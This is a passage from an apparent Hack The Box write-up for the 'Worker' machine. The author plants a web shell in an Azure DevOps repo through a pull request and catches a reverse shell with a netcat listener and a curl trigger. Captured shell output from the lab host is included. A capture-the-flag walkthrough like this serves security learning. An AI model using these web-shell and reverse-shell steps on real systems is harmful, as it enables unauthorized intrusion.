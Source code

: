 Now navigate to the repos/Spectral, click on the master drop-down menu and and click new branch

![](/assets/images/htb-writeup-worker/new_branch.png)


after that simply click upload file and select your shell of choice and then commit. 
Click on Create a Pull request, and then Create, approve and then complete. Tadaa! Now our shell is in the main repo. After 1 mins, the shell is gonna be uploaded into the website by azure pipelines.
Open two terminals

Shell A
```bash
nc -lnvp 4995
```

Shell B
```bash
curl spectral.worker.htb/shell.aspx
```

and we get a reverse shell
```bash
└─$ nc -lnvp 4995                                 
listening on [any] 4995 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.203] 50236
Spawn Shell...
Microsoft Windows [Version 10.0.17763.1282]
(c) 2018 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>
```

## User 
